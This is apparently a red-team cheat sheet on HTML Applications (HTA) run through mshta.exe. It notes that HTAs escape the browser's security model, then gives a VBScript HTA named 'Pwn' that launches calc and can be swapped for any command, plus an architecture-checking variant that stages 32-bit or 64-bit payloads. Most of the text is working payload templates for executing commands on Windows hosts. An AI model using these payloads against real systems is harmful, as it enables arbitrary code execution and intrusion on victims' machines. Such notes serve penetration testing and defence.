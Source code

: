 # HTML Application (HTA)

- An HTML application (HTA) is a Windows proprietary program whose source code consists of HTML and one or more scripting languages supported by Internet Explorer: VBScript and JScript.
- Executes **without the constraint of the browser's security model**.
- Executed using `mshta.exe`, which is dependent on Internet Explorer.

---

## `calc.exe` HTA

```html
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      shell.run "calc"
    End Function

    Pwn
  </script>
</html>
```

You can replace `calc` with any command.

---

## Architecture-Dependent Execution VBA Payload

Sometimes the default `mshta.exe` binary is the 32-bit version (`C:\Windows\SysWOW64\mshta.exe`), not the 64-bit version (`C:\Windows\System32\mshta.exe`).

Given this, you may want to include an architecture check in your payload and execute a different command (or stage a different payload) accordingly.

```vba
Function Pwn()
  Set shell = CreateObject("wscript.Shell")

  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
    shell.run "$COMMAND_IF_64_BIT"
  Else
    shell.run "$COMMAND_IF_32_BIT"
  End If

End Function
Pwn
```
